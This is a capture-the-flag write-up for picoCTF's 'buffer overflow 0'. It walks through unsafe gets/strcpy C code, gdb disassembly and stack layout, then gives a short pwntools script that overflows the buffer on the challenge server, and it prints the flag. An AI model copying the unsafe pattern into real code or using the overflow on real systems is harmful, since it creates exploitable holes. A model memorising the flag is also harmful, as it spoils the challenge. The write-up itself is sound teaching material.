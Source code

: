 # buffer overflow 0

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 100

# Challenge

## Description

Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available [here](./vuln). You can view source [here](./vuln.c). And connect with it using:
`nc saturn.picoctf.net 64712`

## Source

[vuln.c](./vuln.c) (C source)  
[vuln](./vuln) (32-bit ELF)

# Solution

Reading the code, we can see that the flag is printed from the `sigsegv_handler` function. This function is being set as the handler for the `SIGSEGV` signal, which is triggered when the program tries to access an invalid memory address. Let's look at the `vuln()` function:

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

It takes a string as input, and copies it to a buffer of size 16. This is a classic [buffer overflow vulnerability](/Guides/Vulnerabilities/Buffer%20Overflow%20Vulnerability.md). If we pass a string longer than 16 characters, we will overflow the buffer, and overwrite variables on the stack, more specifically, the return address of the function. Let's look at the `vuln()` call in `main()`:

```c
int main(int argc, char **argv){
  ...
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  ...
}
```

The program reads a string from the user, into a buffer of size 100, and passes it to `vuln()`. That should be more than enough for us to trigger a buffer overflow. Let's look at the relative position of `buf2` and the return address on the stack:

```bash
$ gdb ./vuln
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x00001353 <+0>:     endbr32
   0x00001357 <+4>:     push   ebp
   0x00001358 <+5>:     mov    ebp,esp
   0x0000135a <+7>:     push   ebx
   0x0000135b <+8>:     sub    esp,0x14
   0x0000135e <+11>:    call   0x149b <__x86.get_pc_thunk.ax>
   0x00001363 <+16>:    add    eax,0x2c49
   0x00001368 <+21>:    sub    esp,0x8
   0x0000136b <+24>:    push   DWORD PTR [ebp+0x8]
   0x0000136e <+27>:    lea    edx,[ebp-0x18]
   0x00001371 <+30>:    push   edx
   0x00001372 <+31>:    mov    ebx,eax
   0x00001374 <+33>:    call   0x1170 <strcpy@plt>
   0x00001379 <+38>:    add    esp,0x10
   0x0000137c <+41>:    nop
   0x0000137d <+42>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00001380 <+45>:    leave
   0x00001381 <+46>:    ret
End of assembler dump.
```

On lines `<+27>`-`<+30>`, we can see the function loads the memory address of `[ebp-0x18]` to the stack, as an argument to `strcpy`. That means the stack looks like that:

```
[ebp-0x18] buf2 (size 16)
[ebp-0x8] ?
[ebp-0x4] ?
[ebp] old ebp (line <+4>)
[ebp+0x4] return address
```

So, in order to overwrite the return address, we need to pass a string at least 32 characters long (16 + 4 + 4 + 4 + 4), and the last 4 characters should be an invalid memory address, so that the program will try to access it, and trigger a `SIGSEGV` signal. Entering a string filled with `A`'s should do the trick:

```python
from pwn import *

conn = remote('saturn.picoctf.net', 64712)

conn.sendlineafter(b'Input: ', b'A' * 32)
flag = conn.recvline(False).decode()

print('Flag:', flag)
```

```
Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

**The Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`
